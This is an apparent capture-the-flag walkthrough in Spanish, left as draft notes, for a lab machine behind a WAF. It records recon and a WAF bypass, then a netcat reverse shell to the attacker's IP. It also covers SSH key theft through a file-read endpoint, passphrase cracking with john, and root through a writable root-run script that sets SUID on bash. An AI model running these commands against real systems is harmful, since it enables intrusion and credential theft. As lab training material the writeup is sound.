 Writeup

<!--

netdiscover -> 192.168.1.44

first nmap -> 
22
80

second nmap -> 

dirb to directories

gobuster to subdomains (no funciona)

third nmap, nuevo puerto 3000 (node.js)
Dirb sobre el nuevo puerto ya que HTTP, y encontramos /logs, que nos indica que el WAF está actuando y detectando nmap y demás

Anteriormente, hemos visto que gobuster no ha funcionado y no ha conseguido darnos ningún tipo de información, podemos deducir que esto es debido al WAF, ya que si quitamos el subdominio www.yourwaf.nyx, gobuster es incapaz de reconocerlo aunqué esté ahí. Para poder probar un bypass sencillo del WAF, podemos probar a introducir una cabecera http con un User-agent correcto, esto hará que el WAF se crea que la petición viene de un navegador legítimo y no de herramientas como gobuster

gobuster vhost -u http://yourwaf.nyx --append-domain yourwaf.nyx -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"

y voila, sacamos otro dominio que no habíamos visto antes

~~archivo salida buen gobuster

Añadimos el nuevo dominio al archivo hosts

miramos de nuevo la página
imagen

ejecutamos whoami para ver su funcionamiento
imagen

Nos enviamos una reverse shell, pero parece ser que no podemos hacer bash -i, ni curl, por lo que probamos con busybox y netcat y lo conseguimos

busybox nc 192.168.1.12 443 -e bash

imagen

Una vez dentro probamos a escalar a un usuario tester:

sudo -l (no existe sudo)
getcap -r / 2>/dev/null (nada)
crontab -l (nada)
find / -perm -4000 2>/dev/null (nada)
ls -la /tmp (nada interesante)
ls -la /opt -> encontramos un directorio llamado nodeapp en el que aunque no tenemos permisos de ejecución sobre los scripts, tenemos permisos de lectura, vamos a mirar a ver si hay algo dentro de ellos

Encontramos un apitoken, que nos puede servir para entrar por el puerto 3000 a la página principal

con una consulta get->/?api-token=8c2b6a304191b8e2d81aaa5d1131d83d

Conseguimos acceso

Revisando el archivo javascript, vemos que existen dos funcionalidades más, una que reinicia el servidor y otra que parece leer archivos, vamos a ver la segunda

Para eso necesitamos encadenar los comandos en la url, vamos a probar a leer el archivo /root/root.txt

imagen error read file

Vemos que empieza desde /opt/nodeapp/+ lo que tu busques

let path_to_file = __dirname + file
  res.sendFile(path.resolve(path_to_file))

vamos a ver si consguimos movernos sobre los directorios, nos creamos desde la reverse shell un archivo de prueba para ver si se llega desde readfile

imagen

Vemos que no, posiblemente solo pueda llegar dentro del espacio definido de /opt/nodeapp. Volvemos a probar ahora con una localizacion diferente como /var/www/maintenance.yourwaf.nyx/index.php y voilá, tenemos acceso de lectura sobre el directorio. Esto es debido a que cada usuario se monta su /tmp en su sesión, de esta forma nadie ajeno al usuario puede ver los archivos temporales que tiene dentro del directorio.

Vamos a intentar leer user.txt en /home/tester pero parece no ser correcto. Podríamos hacer fuzzing sobre el directorio y ver diferentes respuestas, pero antes de hacer esto vamos a ver si por causalidad existe alguna clave privada/pública en el directorio /home de tester:

imagen de id_rsaTester

La tenemos! Vamos a intentar entrar mediante ssh con tester, pero necesita passprhase y no es ""

imagen error ssh

Vamos a ver si se puede sacar de la clave

ssh2john id_rsa > id_rsaHash

ahora con john intentamos crackearla

ohn id_rsaHash --fork=2 --wordlist=/usr/share/wordlists/rockyou.txt --rules=single > passTester

imagen

Tenemos la passphrase! y entramos como tester

imagen

Antes de revisar los permisos, al principio cuando estabamos revisando /opt/nodeapp, vimos que había un archivo con permisos totales para el grupo de copylogs, y si vemos a qué grupos pertenece tester, vemos que pertenece a copylogs (y mil más) por lo que lo único que nos queda, es ver quién ejecuta el script, por lo que nos creamos un pequeño oneliner que revisa cada 0,05s si hay algún proceso que ejecute copylogs.sh.

Imagen copylogs

Al ser root el que ejecuta el script y nosotros poder modificarlo, podemos hacer que cada 10 segundos, root ejecute lo que queramos. Hay mil formas de hacer esto, en este caso añadiremos el permiso SUID a bash para poder acceder con privilegios a ella desde tester

chmod u+s /bin/bash

imagen bash-p

Y tenemos acceso como root y podemos obtener su flag

imagen root







-->
